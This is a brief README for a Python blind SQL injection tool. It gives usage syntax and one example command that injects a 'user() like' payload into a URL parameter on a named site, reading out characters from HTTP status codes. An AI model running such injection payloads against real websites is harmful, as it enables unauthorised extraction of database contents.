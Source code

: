 # blindSqli
python blindSqli tool
# Usage
python blindSqli.py -u URL_WITH_* (-d DATA_TO_POST) -t CHECK_TYPE -p PASS_SYMBOL
# Example
python blindSqli.py -u http://nohackair.net/?p=12.0and%20user()%20like%20"*%" -t httpCode -p 200
This will start attacking the url and when the httpCode is 200,print out the char
#CHECK_TYPE
httpCode -> check http status
sourceCode -> check source code